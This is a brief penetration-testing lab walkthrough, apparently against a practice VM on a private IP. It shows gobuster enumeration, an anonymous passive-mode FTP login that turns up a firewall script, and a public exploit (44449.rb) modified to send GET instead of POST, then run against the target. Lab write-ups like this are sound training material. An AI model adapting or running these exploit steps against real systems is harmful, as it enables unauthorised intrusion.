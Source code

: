 

Enumerate web server with gobuster:

    gobuster -u http://192.168.56.118:8000 -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553556158372_image.png)


FTP server:
Needed to enter with passive mode -p

    ftp -p 192.168.56.118

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553558253976_image.png)


Discovered WELCOME file along with firewall.sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553558289970_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553558314960_image.png)


if we can get to the box and see if this firewall is on a crontab or SUID we might be able to modify this in a way to get access to high privilege in the future.


Returning back to searchploit `44449.rb` after investigating a bit into the code I realized the code was set for POST instead of GET. Sifting through the code modifications were made to:

added function:

    def http_get(url, payload="")
      uri = URI(url)
      request = Net::HTTP::Get.new(uri.request_uri)
      request.initialize_http_header({"User-Agent" => $useragent})
      request.body = payload
      return $http.request(request)
    end


changed:

    # Check all
    url.each do|uri|
      # Check response
      response = http_get(uri)
    

Execute exploit

    ruby 44449.rb http://192.168.56.118:8000/

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553559079299_image.png)
